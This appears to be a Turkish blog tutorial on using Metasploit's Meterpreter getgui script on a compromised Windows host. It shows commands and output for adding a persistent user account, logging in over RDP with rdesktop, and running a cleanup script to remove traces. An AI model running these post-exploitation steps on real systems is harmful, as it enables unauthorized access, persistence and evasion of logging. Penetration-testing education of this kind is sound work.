 ```yaml
---
draft: false
title: MSF Remote Desktop Modülü
date: 2017-05-05T13:30:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Metasploit Framework içerisinde Meterpreter ile bir shell açtığınızda yapılabilecek işlemlerden bir tanesi de uzak masaüstü bağlantısını hayata geçirmek olabilir. Bunun için getgui komutu oldukça kullanışlıdır.
url: /tr/msf-remote-desktop-modulu/
featured_image: /images/metasploit.jpg
categories:
    - Metasploit Framework
tags:
    - cybersecurity
    - metasploit framework
linkTitle: MSF Remote Desktop
translationKey: msfremotedesktop
weight: 1
---
```

Metasploit Framework içerisinde Meterpreter ile bir shell açtığınızda yapılabilecek işlemlerden bir tanesi de uzak masaüstü bağlantısını hayata geçirmek olabilir. Bunun için `getgui` komutu oldukça kullanışlıdır.

Bu yazımızda `getgui` komutunu kullanarak sistemde bir kullanıcı oluşturup ardından `rdesktop` komutu ile bu bilgisayara nasıl bağlanabileceğimizi göreceğiz.

## Uzak Masaüstü Bağlantısı

Hedef bilgisayarda Meterpreter shell açtığınızı varsayıyoruz. Şimdi işe `getgui` komutunu kullanarak görsel bağlantı sağlamak için gerekli olan kullanıcı adı ve parolaya ihtiyacımız var. Böyle bir kullanıcı adı ve parolası oluşturduğunuzda kalıcılık sağlamış olursunuz.

Öncelikle `getgui` yardım başlıklarına bakalım.

```bash
meterpreter > run getgui -h
Windows Remote Desktop Enabler Meterpreter Script
Usage: getgui -u  -p 
Or:    getgui -e

OPTIONS:

    -e   Enable RDP only.
    -f   Forward RDP Connection.
    -h   Help menu.
    -l   The language switch
         Possible Options: 'de_DE', 'en_EN' / default is: 'en_EN'
    -p   The Password of the user
```

## Kullanıcı Ekleme

Genel olarak kullanımda `-u` kullanıcı adını, `-p` parolayı belirtmek için kullanılır. `getgui` komutunu aşağıdaki örneğe benzer şekilde kullandığınızda sisteme yeni bir kullanıcı eklemiş olursunuz.

```bash
meterpreter > run getgui -u loneferret -p password
> Windows Remote Desktop Configuration Meterpreter Script by Darkoperator
> Carlos Perez carlos_perez@darkoperator.com
> Language detection started
>   Language detected: en_US
> Setting user account for logon
>   Adding User: loneferret with Password: password
>   Adding User: loneferret to local group ''
>   Adding User: loneferret to local group ''
> You can now login with the created user
> For cleanup use command: run multi_console_command -rc /root/.msf4/logs/scripts/getgui/clean_up__20110112.2448.rc
meterpreter >
```

## Uzak Masaüstü Bağlantısı

Artık kullanıcı oluşturuldu. Aynı ağda bulunan başka bir bilgisayardan, bu kullanıcı adı ve parolayı kullanarak uzak masaüstü bağlantısı yapabilirsiniz.

```bash
root@kali:~#: rdesktop -u loneferret -p password 192.168.101.108
```

## Log Temizleme

Hedef sistemde ne kadar çok oynama yaparsanız, log kayıtlarına kaydedilme ihtimaliniz de o kadar artar. Bu sebeple mümkün olduğunca yetkisiz işlem yapmamalı veya gereken yerlere müdahale etmekle yetinmelisiniz.

`getgui` ile oluşturduğunuz kullanıcı ve oturum bilgilerini log kayıtların temizlemek isteyebilirsiniz. Bunun için aşağıdaki komut örneği işinize yarayacaktır. Örnekte kullanılan `/root/.msf4/logs/scripts/getgui/clean_up__20110112.2448.rc` dosyasının en güncel halini yine aynı klasör içinden kontrol edebilirsiniz.

```bash
meterpreter > run multi_console_command -rc /root/.msf4/logs/scripts/getgui/clean_up__20110112.2448.rc
> Running Command List ...
>   Running command execute -H -f cmd.exe -a "/c net user hacker /delete"
Process 288 created.
meterpreter >
```
